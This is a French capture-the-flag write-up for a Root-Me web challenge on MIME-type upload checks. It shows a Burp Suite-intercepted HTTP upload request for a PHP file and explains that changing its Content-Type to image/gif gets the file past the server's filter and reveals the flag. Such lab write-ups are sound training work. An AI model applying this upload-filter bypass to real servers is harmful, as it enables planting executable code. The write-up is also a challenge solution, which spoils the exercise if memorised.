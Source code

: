 # File upload - type MIME

La page de [challenge](http://challenge01.root-me.org/web-serveur/ch21/?action=upload)

## Attaque

J'utilise **Burp Suite** pour intercepter mes requêtes http. Je fais bien attention de laisser l'option _intercept_ de _Proxy_ en _on_.

Je créer le fichier _file.php_, que j'upload depuis la page du challenge. Cette requête seras intercepter par Burp.
```
<?php
echo 0;
?>
```

Depuis mon interface Burp, j'analyse la requête interceptée. Je remarque le champ `Content-Type:application/x-php`.

```
POST /web-serveur/ch21/?action=upload HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.7,en-US;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://challenge01.root-me.org/web-serveur/ch21/?action=upload
Cookie: PHPSESSID=...
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------7227795332295222081052113690
Content-Length: 240

-----------------------------7227795332295222081052113690
Content-Disposition: form-data; name="file"; filename="truc.php"
Content-Type: application/x-php

<?php
echo 0;
?>

-----------------------------7227795332295222081052113690--
```

Je change `Content-Type: application/x-php` en `Content-type: image/gif` puis je forward la requête. De retour sur mon navigateur, le fichier a bien été uploadé. EN cliquant dessus, je retrouve le flag de challenge.
